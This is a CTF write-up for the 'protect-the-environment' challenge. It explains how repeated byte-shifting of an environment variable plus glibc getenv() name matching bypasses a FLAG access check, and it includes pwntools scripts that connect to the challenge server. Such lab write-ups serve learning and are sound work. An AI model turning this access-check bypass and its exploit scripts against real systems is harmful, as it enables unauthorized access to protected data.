 ```yaml
---
title: "FortiD CTF 2025 – protect-the-environment: Abusing getenv() with repeated ROT13"
date: 2025-09-13
toc: true
---
```


> *Protect the earth? We can't even protect our environment variables...*

## TL;DR

Repeatedly calling `protect FLAG` adds `+13` to each byte of the FLAG **value**. After 19 applications the first byte of the value becomes `'='`, turning the stored string into `FLAG==...`. Then `print FLAG=` matches that entry and returns the encoded payload. Recover the original flag by adding `+9` to each returned byte (i.e. `original = (encoded + 9) % 256`).
## Analyzing the program

```c
// gcc -o chall chall.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rot13(char *s) {
  while (*s != 0) {
    *s += 13;
    s++;
  }
}

int main(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  char command[64];
  char name[64];

  while (1) {
    printf("> ");
    scanf("%63s %63s", command, name);
    if (!strcmp(command, "protect")) {
      char *val = getenv(name);
      if (val) {
        rot13(val);
        printf("Protected %s\n", name);
      } else {
        printf("No such environment variable\n");
      }
    } else if (!strcmp(command, "print")) {
      if (!strcmp(name, "FLAG")) {
        printf("Access denied\n");
      } else {
        char *val = getenv(name);
        if (val) {
          printf("%s=%s\n", name, val);
        } else {
          printf("No such environment variable\n");
        }
      }
    } else {
      printf("Unknown command\n");
      break ;
    }
  } 
  return 0;
}
```

The source code doesn't appear to be exploitable: it simply protects the environment values using [rot13](https://en.wikipedia.org/wiki/ROT13) prints environment variables (except the flag) using `getenv()`. 
## Exploitation

I was honestly stunned for a long time — the binary looked clean and I couldn't find any vuln in the code — so I decided to f**k with my brain and dive into the `getenv()` source code.
### getenv() mistreating entries

Reading the glibc `getenv()` [implementation](https://elixir.bootlin.com/glibc/glibc-2.27/source/stdlib/getenv.c) we see that `getenv()` scans the environment array (`environ` / `start_environ`) line by line, looking for an entry of the form `NAME=VALUE`. When it finds a matching name it returns a pointer to the value (the characters immediately after the `=`).

```c
size_t len = strlen (name);
for (char **ep = start_environ; ; ++ep)
{
    char *entry = atomic_load_relaxed (ep);
    if (entry == NULL)
    break;

    /* If there is a match, return that value.  It was valid at
        one point, so we can return it.  */
    if (name[0] == entry[0]
        && strncmp (name, entry, len) == 0 && entry[len] == '=')
    return entry + len + 1;
}
```

So if we can turn the first byte of the **value** into an `'='` byte, the stored environment string becomes `NAME==...` (note the double `=`). If we then call `print NAME=` (notice the extra `=` included in the name we pass to the program) the `getenv()` call will look for an entry named `NAME=` and check that `entry[len] == '='` — that second `=` is the one we created at the start of the value. `getenv()` therefore returns a pointer to the data _after_ the second `=` — i.e. the original value with its first byte removed (so you can now read the encoded payload).

### How many times do we need to call `protect`?

Each `protect` call adds `13` to every byte of the value (mod 256). If the value's first byte is `x`, after `k` calls it becomes `(x + 13*k) % 256`. We want that first byte to become `=` (ASCII 61).

```
(x + 13*k) % 256 == 61
=> 13*k ≡ (61 - x) (mod 256)
```

As the flag starts with `'F'` (70), we need `13*k ≡ 61 - 70 ≡ -9 ≡ 247 (mod 256)`. Since `13 * 19 = 247`, `k = 19` is the solution — so 19 `protect` calls will make the first byte of the value `=`.

We can confirm this by using the following poc:

```python
from pwn import *

p = remote('0.cloud.chals.io', 33121)

for _ in range(19):
    p.sendlineafter(b"> ", b"protect FLAG")

p.interactive()
```

![](https://github.com/user-attachments/assets/e4bfbe96-0011-4d8f-83b3-3dedd596ac31)

### printf FLAG=

```python
from pwn import *
p = remote('0.cloud.chals.io', 33121)

for _ in range(19):
  p.sendlineafter(b"> ", b"protect FLAG")

p.sendlineafter(b"> ", b"print FLAG=")
p.recvuntil(b"FLAG=")
log.success(''.join(chr((ord(c)+9)%256) for c in p.recvline().strip().decode()))
```

![](https://github.com/user-attachments/assets/21ca19d3-0cdd-4f89-baa5-a890500d4166)

## Conclusion

Make the flag wear an extra `=` — print it out, add 9, and boom, flag unlocked.
